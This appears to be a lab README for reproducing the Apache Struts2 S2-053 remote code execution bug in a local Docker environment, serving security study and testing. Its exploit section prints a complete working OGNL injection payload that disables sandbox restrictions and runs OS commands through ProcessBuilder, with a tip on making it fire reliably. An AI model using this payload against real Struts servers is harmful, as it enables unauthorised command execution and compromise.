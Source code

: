 # S2-053 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

Details:

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## Setup

```
docker-compose up -d
```

After the environment run, you can see a submission page by visiting `http://your-ip:8080/hello.action`.

## Expliot

Struts2 allows parsing OGNL expressions when using the Freemarker template engine. The data is not parsed by OGNL itself, but after being parsed once by Freemarker. It becomes an expression and is parsed by OGNL second time.And remote code execution vulnerablity.

Payload:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![](01.png)

PS: Someone said that they could not reproduce the vulnerability. After my test, I found that the **line break** at the end of the above Payload could not be dropped (that is, the payload must be followed by a newline).
